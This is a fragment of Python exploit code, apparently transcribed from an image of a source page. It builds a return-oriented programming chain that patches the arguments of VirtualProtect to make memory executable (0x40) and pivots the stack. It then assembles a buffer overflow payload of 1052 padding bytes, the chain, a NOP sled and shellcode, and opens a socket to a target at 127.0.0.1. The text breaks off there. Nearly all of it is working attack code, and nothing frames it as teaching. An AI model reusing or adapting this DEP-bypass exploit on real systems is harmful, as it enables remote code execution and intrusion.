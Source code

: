 ```py
                ## WRITE EAX IN ECX (0x48484848)
                0x6aaa04ec,  # mov dword ptr [ecx], eax; ret;

                ##############
                # -> Patch flNewProtect - 0x40 - 0x49494949
                ##############
                ## INC 4 INC, ALIGN STACK
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                ## POP -40 IN EAX
                0x64b4fa38,  # pop eax; ret;
                0xffffffc0,  # -40
                ## NEG -40, TO BECOME 40
                0x68cef5b2,  # neg eax; ret;
                ## WRITE EAX IN ECX (0x49494949)
                0x6aaa04ec,  # mov dword ptr [ecx], eax; ret;

                ##############
                # -> Patch lpflOldProtect 0x51515151
                ##############
                ## INC 4 INC, ALIGN STACK
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                0x61b474f8,  # inc ecx; ret;
                ## Put ECX on EAX
                0x61ba4ca0,  # mov eax, ecx; ret;
                ## Put -20 in ESI and ADD it in EAX
                0x61e30fe3,  # pop edx; ret;
                0xffffffe0,  # -20
                0x6eb47012,  # neg edx; ret;
                0x6ab00690,  # add eax, edx; ret;
                0x6aaa04ec,  # mov dword ptr [ecx], eax; ret;

                ##############
                # -> ECX to ESP
                ##############
                ## PUT -20 on EBP
                0x6aa812c9,  # pop ebp; ret;
                0xffffffec,  # -20
                ## DEC ECX in 20
                0x6d9c8e42,  # add ecx, ebp; ret;
                ## PUT ECX, on ESP
                0x6eb53647,  # mov esp, ecx; ret;
                
                        ]
        return ''.join(pack('<L', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

payload = b'\x41' * (1052 - len(virtual_protect_placeholder))
payload += virtual_protect_placeholder
payload += pack("<L", (0x6ab2223e))  # ret
payload += rop_chain
payload += b'\x90' * 900
payload += shellcode
	
target = b'127.0.0.1'

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```